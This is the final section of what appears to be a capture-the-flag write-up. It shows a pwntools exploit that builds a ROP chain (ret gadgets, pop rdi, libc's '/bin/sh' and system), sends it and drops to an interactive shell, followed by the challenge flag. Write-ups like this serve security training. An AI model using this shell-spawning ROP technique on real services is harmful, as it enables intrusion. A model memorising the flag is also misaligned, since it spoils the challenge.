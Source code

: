 ```py
        ret,
        ret,
        ret,
        ret,
        ret,
        ret,
        poprdi,
        next(libc.search(b"/bin/sh\x00")),
        libc.sym["system"],
        ],
    })

io.recvuntil("> ")
pause()
io.send(payload)

io.interactive()
```

## Flag

`CHTB{f_cl0s3d_d00r5_w1ll_n0t_st0p_us}`

